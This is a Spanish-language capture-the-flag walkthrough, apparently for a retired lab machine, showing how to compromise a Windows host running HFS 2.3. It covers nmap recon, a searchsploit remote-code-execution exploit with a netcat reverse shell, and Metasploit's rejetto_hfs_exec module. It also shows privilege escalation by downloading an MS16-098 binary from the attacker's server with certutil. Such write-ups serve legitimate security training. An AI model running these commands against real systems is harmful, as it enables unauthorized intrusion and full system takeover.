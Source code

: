 ## Summary

Tags: #Windows #HFS #Metasploit #WindowsSuggester 

- IP -> 10.10.10.8
- Ports -> TCP (80), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80 -> HttpFileServer httpd 2.3


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ ping -c 1 10.10.10.8                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)

	# IP = IP Address de la maquina target 
	# c = Numero de pings a ejecutar
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted

	#  p22,... = Indica los puertos que se quieren escanear
	#  sC = Lanza scripts básicos de enumeración
	#  sV = Enumera la versión y servicio que está corriendo en los puertos
	#  Target IP = Dirección IP que se quiere escanear
	#  oN targeted = Exporta el output a un fichero en formato nmap con nombre “targeted”
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

* Nos ponemos a investigar en la pagina Web

```bash
❯ searchsploit HFS 2.3                                # Para buscar un exploit y encontramos un Remote Command Execution en Python
❯ searchsploit -x multiple/remote/48569.py            # En este exploit debemos de hostear el Netcat para Windows, tambien nos dice que debemos de correr multiples veces para que sea efectivo
```

```bash
❯ searchsploit -m multiple/remote/48569.py              # Para descargarnos el exploit .py

	# m = move
```

## User

Buscamos el Netcat.exe 
```bash 
❯ locate netcat.exe                         # Buscamos el Netcat y lo copiamos a nuestro entorno de trabajo 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 en Linux
```

```bash
❯ rlwrap nc -nlvp 443                       # Nos ponemos en escucha para recibir la revershell
```

Antes de ejecutar el exploit, debemos de abrirlo con Nano y lo modificamos, cambiándole la IP a la que tenemos en nuestra VPN. 
```python 
❯ python2.7 48569.py 10.10.10.8 80                      # Lo ejecutamos, en donde la especificamos la IP victima y su puerto 
```

## HFS 2.3 Windows (Http File Server)

También podemos entrar al usuario por Metasploit 

```bash 
# Este exploit sirve para explotar un HttpFileServer
❯ msfconsole -q                  # q = Quitar el banner de inicio

	❯ use exploit/windows/http/rejetto_hfs_exec        # Usamos el exploit 
	❯ options
	❯ set RHOSTS 192.168.1.194                         # Colocamos la IP de la maquina victima
	❯ set LHOST 192.168.1.10                           # Colocamos nuestra IP (En caso de que estemos en una VPN)
	❯ exploit 
	❯ shell                                            # Creamos una sesion Shell para colocar los comandos mas facilmente
```

Ahora buscamos la flag de user.txt 

## Root

Debemos de buscar la manera de escalar privilegios y ser Administrador 

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos, pero no tenemos uno que valga la pena 
```

Podemos ir buscando en los directorios para ver si encontramos algo.

Si no encontramos nada, una manera de poder buscar vulnerabilidades es con el **' Windows Exploit Suggester'**
* [Windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
```bash
❯ systeminfo                                 # Nos copiamos todo lo que nos salga con ese comando, lo pegamos en un archivo llamado 'systeminfo.txt' y usaremos un programa llamado 'Windows Exploit Suggester' para detectar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.
```

```python  
❯ python2.7 windows-exploit-suggester.py -h                 # Nos muestra el panel de ayuda 
❯ python2.7 windows-exploit-suggester.py -u                 # Descargamos el archivo que nos ayuda a filtrar por vulnerabilidades 
❯ python2.7 windows-exploit-suggester.py -d 2023-07-25-mssb.xls -i systeminfo.txt     # Ejecutamos el Windows Suggester y le pasamos el archivo que contiene la informacion de la maquina victima, asi como el archivo anteriormente descargado 
```

Nos muestra las vulnerabilidades obtenidas como:
* Integer Overflow y tiene una 'E' de Escalation 

```bash 
# Encontramos un CVE 'https://www.exploit-db.com/exploits/41020' y nos da (MS16-098) con un Identificador 'EDB-ID = 41020'

Ahora buscaremos en Google el binario en una pagina de Github
# ❯ https://gitlab.com/exploit-database/exploitdb-bin-sploits 

Despues nos vamos a la carpeta 'bin-sploits' y buscamos el identificador anterior y nos descargamos el exploit. 
```

Lo pasamos a la maquina victima de la siguiente manera: 
```bash 
# En la maquina de atacante Linux
3. ❯ python -m http.server              # Creamos un servidor y por default lo hace por el puerto 8000

# En la maquina victima Windows 
3. ❯ certutil.exe -f -urlcache -split http://IP:8000/payload.exe payload.exe         # Para descargar el payload de la maquina Linux
	# IP = Direccion de la maquina de atacante Linux
	# payload.exe = Nombre del archivo a descargar en la maquina Windows 
```

```bash 
❯ privesc.exe            # Ejecutamos el binario en la maquina de atacante
❯ whoami                 # Ahora somos NT Authority\System
```

Solo queda buscar la flag de root.txt 